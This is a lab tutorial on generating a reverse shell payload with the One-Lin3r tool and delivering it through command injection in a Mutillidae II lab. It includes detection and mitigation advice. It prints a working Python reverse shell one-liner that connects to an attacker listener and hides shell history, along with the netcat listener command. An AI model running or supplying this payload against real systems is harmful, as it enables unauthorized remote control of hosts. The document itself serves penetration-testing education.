

# Reverse Shell with One-Lin3r: Crafting a Reverse Shell Payload in a Single Command

[🇮🇩 Baca dalam Bahasa Indonesia](command-injection-reverse-shell-id.md)

Hi everyone,

In this article, I'll demonstrate how to generate a **Reverse Shell** payload using **One-Lin3r**. Rather than exploiting a vulnerability itself, One-Lin3r acts as a payload generator that simplifies the creation of reverse shell commands across multiple languages.

For this demonstration, the payload is executed through a **Command Injection** vulnerability in a controlled lab environment.

---

# What is a Reverse Shell?

A **Reverse Shell** is a technique where the **target system initiates an outbound connection** back to the attacker's machine, providing an interactive command shell over the established network connection.

Unlike a **Bind Shell**, which requires the target to listen on an open port, a Reverse Shell leverages outbound traffic, making it more likely to bypass firewall rules that only allow outbound connections.

It is important to understand that a Reverse Shell is **not a vulnerability**. It is a **payload** executed after an attacker gains the ability to run commands on the target system.

---

# Root Cause

A Reverse Shell requires **Command Execution** on the target host.

Common attack vectors include:

- Command Injection
- Remote Code Execution (RCE)
- Unsafe File Upload
- Insecure Deserialization
- Web Shell
- Local Privilege Escalation

In this lab, **Command Injection** is the root cause that allows the Reverse Shell payload to be executed.

The attack flow can be summarized as follows:

```text
Command Injection
        │
        ▼
Command Execution
        │
        ▼
Reverse Shell Payload
        │
        ▼
Outbound Connection
        │
        ▼
Interactive Shell
```

---

# Why One-Lin3r?

Reverse Shell payloads exist in many different implementations depending on the available runtime environment, including:

- Bash
- Python
- PHP
- Perl
- Ruby
- PowerShell
- Netcat
- Socat

Remembering every payload variation can be challenging.

**One-Lin3r** simplifies the process by automatically generating payloads. The user only needs to specify:

- Payload type
- Listener IP Address
- Listener Port

Repository:

https://github.com/D4Vinci/One-Lin3r

Below is a preview of the available payloads.


---

# Lab Topology

The following lab environment is used throughout this demonstration.

| Role | Description | IP Address |
| :--- | :--- | :--- |
| **Attacker** | Kali Linux | `10.10.10.149` |
| **Target Web** | Ubuntu Server (Mutillidae II) | `10.10.10.2` |

```text
+-------------------------------------------------+
|            VMware - 10.10.10.0/24               |
|                                                 |
|  +---------------+      +-------------------+   |
|  |  Kali Linux   |      |   Ubuntu Server   |   |
|  |  [ATTACKER]   |      |   [TARGET WEB]    |   |
|  |  nc Listener  | <--- |   Reverse Shell   |   |
|  | 10.10.10.149  |      |   10.10.10.2      |   |
|  |   Port 9001   |      |   Mutillidae II   |   |
|  +---------------+      +-------------------+   |
+-------------------------------------------------+
```

---

# Crafting the Payload

Select the following payload from One-Lin3r.

```text
linux/python/socket_reverse
```

Configure the listener information.

```text
10.10.10.149:9001
```

One-Lin3r generates the following payload.


```python
python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();'
```

This payload performs the following actions:

- Creates a TCP connection to the attacker's listener.
- Redirects **stdin**, **stdout**, and **stderr** to the socket.
- Launches `/bin/bash`.
- Spawns an interactive pseudo-terminal (`pty`).

If necessary, the IP address and port can be modified using any text editor before execution.

---

# Starting the Listener

Before executing the payload, start a Netcat listener on the attacker's machine.

```bash
nc -lvnp 9001
```

The listener waits for incoming connections from the target.

---

# Demonstration via Command Injection

In this lab, the payload is delivered through a **Command Injection** vulnerability in **Mutillidae II**.

Command Injection occurs when user input is passed to the operating system without proper validation, allowing arbitrary commands to be executed.

For example:

```bash
ping <user_input>
```

If the application fails to sanitize the input, an attacker can inject additional operating system commands.

The generated Reverse Shell payload is supplied to the vulnerable parameter.



Once executed, the target establishes an outbound TCP connection to the Netcat listener.

---

# Result

If the listener is active and outbound traffic is allowed, Netcat receives the incoming connection.


An interactive shell is successfully established, allowing command execution with the privileges of the compromised web application.

---

# Detection

Reverse Shell activity can often be identified through several indicators.

- Web server processes spawning shell interpreters (`/bin/bash`, `sh`, `cmd.exe`, `powershell.exe`).
- Unexpected outbound network connections.
- EDR or Sysmon events showing process-to-network activity.
- Suspicious execution of Python, Bash, Netcat, or PowerShell.

Monitoring process creation and outbound connections is an effective way to detect Reverse Shell activity.

---

# Mitigation

Since a Reverse Shell is only a payload, mitigation should focus on preventing **Command Execution**.

Recommended defensive measures include:

- Validate and sanitize all user input.
- Avoid executing operating system commands directly from web applications.
- Apply the Principle of Least Privilege.
- Restrict unnecessary outbound network connections.
- Deploy EDR, IDS/IPS, and centralized logging.
- Continuously monitor process creation and network activity.

---

# Conclusion

A Reverse Shell is not a vulnerability—it is a payload executed after an attacker gains **Command Execution** on a target system.

In this demonstration, **Command Injection** serves as the root cause that enables payload execution, while **One-Lin3r** simplifies payload generation by removing the need to memorize numerous language-specific Reverse Shell commands.

From an offensive perspective, One-Lin3r accelerates payload preparation during penetration testing. From a defensive perspective, preventing **Command Execution** and monitoring abnormal outbound connections remain the most effective countermeasures.

---

# References

- One-Lin3r (GitHub)  
  https://github.com/D4Vinci/One-Lin3r

- PayloadsAllTheThings – Reverse Shell Cheat Sheet  
  https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

- PentestMonkey – Reverse Shell Cheat Sheet  
  https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet/

- MITRE ATT&CK – Command and Scripting Interpreter (T1059)  
  https://attack.mitre.org/techniques/T1059/

---

Thank you for reading.

I hope this article provides a clear understanding of the relationship between **Command Injection**, **Command Execution**, and **Reverse Shell**, as well as how **One-Lin3r** can simplify payload generation in a controlled and authorized penetration testing environment.
